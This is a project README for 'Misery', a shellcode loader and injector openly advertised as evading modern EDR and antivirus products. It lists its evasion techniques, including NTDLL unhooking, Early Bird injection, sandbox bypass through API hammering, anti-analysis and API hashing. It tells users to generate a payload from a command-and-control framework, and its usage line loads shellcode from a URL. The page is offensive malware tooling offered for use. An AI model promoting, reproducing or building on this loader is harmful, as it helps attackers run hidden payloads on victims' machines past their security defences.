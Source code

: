 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with lots of love
---

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
---
## 🆘 Usage
### ⚔️ Misery.exe --shelcode \<URL>



